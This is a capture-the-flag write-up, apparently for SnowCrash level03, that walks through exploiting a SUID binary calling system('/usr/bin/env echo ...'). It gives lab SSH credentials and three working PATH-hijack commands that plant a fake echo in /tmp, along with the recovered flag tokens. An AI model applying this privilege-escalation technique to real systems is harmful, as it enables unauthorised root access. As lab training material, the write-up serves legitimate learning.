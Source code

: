 
ssh level03@10.12.100.98 -p 4242
pwd: kooda2puivaav1idi4f57q8iq

In the home we found a binary file `level03`

first thing to notice when `ls`-ing the dir are the file permissions:
`rwsr-sr-x`
**owner**: has read, write, [SUID permissions](https://www.zzee.com/solutions/linux-permissions.shtml)
**group**: read and SGID permissions

```

the setguid bit set = if the file were executed, that it would be 
run with the effective rights of the group owner (instead of that of
the user who executed it) aka : you inherit the permissions of that 
program's owner.

On a directory, the setgid bit means that, if a file is created in 
the directory, its group-owner would be that of the directory 
(instead of that of the user who created it).   

```
[StackOverflow](https://stackoverflow.com/questions/9129959/how-to-set-a-file-to-this-drwxrwsrwx-permission-on-ubuntu#:~:text=The%20group%20owner%20permissions%20in,is%20the%20s%20in%20rws%20)

if we execute `./level03`, it outputs the msg: `Exploit me`

```
strings level03
    /usr/bin/env echo Exploit me
```
tracing the call of the executable either with strings or ltrace ull notice:

`system("/usr/bin/env echo Exploit me")`

u could check [this thread](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code/8304447) on StackOverflow

Whenever user type some command in shell, it first search that command in the list of directories mentioned in PATH environment variable. {[Quora](https://www.quora.com/How-are-commands-executed-in-Linux)}


so on the system function call we can override the behavior of echo to inject our getflag command which is built-in /bin/getflag 

`echo "/bin/getflag" > /tmp/echo && chmod +x /tmp/echo && PATH=/tmp:$PATH`

```
 echo "echo getflag" >> /tmp/echo
 chmod 777 /tmp/echo
 export PATH=/tmp:$PATH
```


```
 ./level03
    token : qi0maab88jeaj46qoumi7maus
 ```

 Echo Command -1st Technique to spawn root privilege
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

Copy Command -2nd Technique to spawn root privilege

cp /bin/getflag /tmp/echo
export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus


Symlink command -3rd Technique to spawn root privilege
ln -s /bin/getflag /tmp/echo